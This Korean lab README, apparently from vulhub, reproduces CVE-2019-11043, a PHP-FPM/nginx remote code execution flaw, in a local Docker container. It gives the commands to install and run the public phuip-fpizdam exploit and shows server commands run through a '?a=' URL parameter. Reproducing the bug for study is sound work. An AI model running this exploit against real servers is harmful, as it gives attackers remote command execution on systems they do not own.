




# PHP-FPM 원격 코드 실행 (CVE-2019-11043)

PHP-FPM은 PHP를 FastCGI 방식으로 실행하기 위한 모듈입니다.
PHP 7.1.x, 7.2.x, 7.3.x 버전 중 일부 설정에서, nginx와 함께 잘못 설정될 경우
버퍼를 초과해서 쓰기가 발생하여 원격 코드 실행(RCE)이 가능해집니다.

취약점 번호: CVE-2019-11043

주요 영향 버전: PHP 7.1.33 미만, PHP 7.2.24 미만, PHP 7.3.11 미만

## 실습 환경

- Windows 11 wsl 환경

도커 명령어

```bash
docker compose up -d
```


서버 접속

```bash
http://127.0.0.1:8080/index.php # http://your-ip:8080/index.php
```

접속 시 정상적으로 hello world가 뜨는 것을 확인할 수 있습니다.



## 익스플로잇 과정

사용된 도구: https://github.com/neex/phuip-fpizdam

설치방법

```bash
go install github.com/neex/phuip-fpizdam@latest
```

공격 실행 명령어

```bash
~/go/bin/phuip-fpizdam http://127.0.0.1:8080/index.php
```


취약한 PHP-FPM 설정을 가진 서버를 대상으로, QSL과 PISOS 값의 조작을 통해 세션 설정을 변경하였습니다.

## 결과

```bash
http://127.0.0.1:8080/index.php?a=id
```



그 결과 URL 파라미터(?a=명령어)를 통해 서버 측 명령어를 원격으로 실행하는 데 성공했습니다.
위 스크린샷은 서버에서 id 명령어를 실행해서 나온 결과를 보여줍니다.

## 주의사항

이 취약점은 PHP-FPM의 일부 자식 프로세스에만 영향을 미칩니다.
따라서 명령어 실행이 실패할 경우, 취약한 프로세스에 연결될 때까지 여러 번 시도해야 할 수 있습니다. 또한 익스플로잇의 성공 여부는 nginx 서버의 설정에 크게 좌우됩니다.

일반적으로 취약한 구성은 다음과 같은 특징을 가집니다:

- FastCGI 처리가 활성화된 서버
- PHP 파일이 PHP-FPM을 통해 전달되는 구조
- URL을 특정 방식으로 분리하는 취약한 location 규칙 사용

[English version](https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.md)

[中文版本(Chinese version)](README.zh-cn.md)
